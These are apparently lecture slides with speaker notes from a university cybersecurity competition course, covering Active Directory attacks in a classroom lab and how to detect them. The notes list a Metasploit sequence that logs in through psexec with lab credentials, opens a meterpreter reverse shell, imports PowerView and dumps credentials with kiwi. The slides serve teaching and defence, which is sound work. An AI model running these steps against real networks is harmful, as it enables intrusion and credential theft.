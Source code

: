 ## Cybersecurity Competition Training

CPSC 4810



### Introduction Questions

What is the AD responsible for?



### Introduction Questions

Why is it so important to secure AD/DS?



### Introduction Questions

What does DNS do?



### Introduction Questions

Why is DNS needed for an AD installation?



### Explore

1. Get into pairs
2. Use Mimikatz to dump cleartext credentials
3. Use PSExec in Metasploit to log in with found credentials
4. Use PowerView to find Domain Admins

Note:
* Give them SMBDomain = cucyber, SMBUser = dcrockett, SMBPass = Password123, windows/x64/meterpreter/reverse_tcp, and PowerView
1. exploit/windows/smb/psexec_psh
2. set SMBDomain cucyber
3. set SMBUSER Administrator
4. set SMBPASS <hash>
5. set payload windows/x64/meterpreter/reverse_tcp
6. run
7. load powershell
8. https://github.com/PowerShellMafia/PowerSploit/raw/master/Recon/PowerView. ps1
9. powershell_import /root/Desktop/PowerView.ps1
10. powershell_execute Get-NetDomain
11. load kiwi
12. creds_all



### Dumping credentials

* Data is stored in lsass.exe
* Mimikatz reads from lsass.exe memory

Note:
* Point 2 is actually a lie, but that's the easiest way of describing it
* How can this be prevented?
  * It can't really unless Microsoft fixes it
  * In the mean time, just watch for processes that are reading memory from lsass



### PSExec

* Like Telnet or SSH for Windows
* Part of sysinternals
* Communication through SMB
* If psexec is used, hard to tell if legit or not

Note:
* It's apart of homework to find out how psexec usage can be found
  * Hint: it has to do with Sysmon


### PowerView

* Windows host enumeration
* `Get-NetGroup "Domain Admins" | Get-NetGroupMember`
* How does this information help us? (Think Mimikatz)
* How can this be detected if used on the network?



#  Questions?
